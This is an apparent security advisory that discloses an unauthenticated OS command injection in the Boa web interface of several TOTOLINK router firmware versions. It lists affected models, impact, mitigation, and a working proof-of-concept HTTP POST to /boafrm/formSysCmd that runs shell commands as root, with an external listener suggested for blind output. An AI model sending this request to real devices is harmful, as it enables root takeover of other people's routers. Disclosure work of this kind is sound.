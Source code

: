 ![image](https://github.com/user-attachments/assets/32927f4e-ae57-4b18-8cdf-e67240759d80)# TOTOLINK using Boa API vulnerabilities

## Overview
Some TOTOLINK products using Boa API function are vulnerable to OS Command Injection.
## Products Affected
- TOTOLINK-CX-A3002RU-V1.0.4-B20171106.1512
- TOTOLINK-CX-N150RT-V2.1.6-B20171121.1002
- TOTOLINK-CX-N300RT-V2.1.6-B20170724.1420
- TOTOLINK-CX-N300RT-V2.1.8-B20171113.1408
- TOTOLINK-CX-N300RT-V2.1.8-B20191010.1107
- TOTOLINK-CX-N302RE-V2.0.2-B20170511.1523

## Description
- A OS command injection vulnerability was found within the web interface of the device([CWE-78](https://cwe.mitre.org/data/definitions/78.html)).
## Impact
- An attacker may inject arbitrary shell commands without credentials, and it be executed by the device with root privileges.
## Solution
- If the products is not supported, please stop using the products and switch to alternative products.
## Mitigation 
- Disable internet access. 

## Explot PoC
- Uses external server`{Listen IP}:{Listen Port}` to see invisible code execution response

**Payload**
```http!
POST /boafrm/formSysCmd HTTP/1.1
Host: {Target IP}:{Target Port}
User-Agent: curl/7.81.0
Accept: */*
Content-Length: <length>
Content-Type: application/x-www-form-urlencoded

sysCmd={shell_cmd}
```

**Check product version**
- shell cmd: `cat /etc/version`
![image](https://hackmd.io/_uploads/H1jjAhKKR.png)

**Check gained root permission**
- shell cmd: `echo %USER`
![image](https://hackmd.io/_uploads/Syt0BhFFA.png)

## Affected products
**TOTOLINK-CX-A3002RU-V1.0.4-B20171106.1512**
![image](https://hackmd.io/_uploads/H1jjAhKKR.png)

**TOTOLINK-CX-N150RT-V2.1.6-B20171121.1002**
![image](https://hackmd.io/_uploads/r1ZV1pYYA.png)

**TOTOLINK-CX-N300RT-V2.1.8-B20171113.1408**
![image](https://hackmd.io/_uploads/BJe4w1aYY0.png)

**TOTOLINK-CX-N302RE-V2.0.2-B20170511.1523**
![image](https://hackmd.io/_uploads/H1hqk6FtC.png)

## Reference
- https://www.totolink.tw/products_view/N302RE
- https://www.totolink.tw/products_view/N300RT
- https://totolink.tw/support_view/A3002RU
- https://totolink.tw/support_view/N150RT
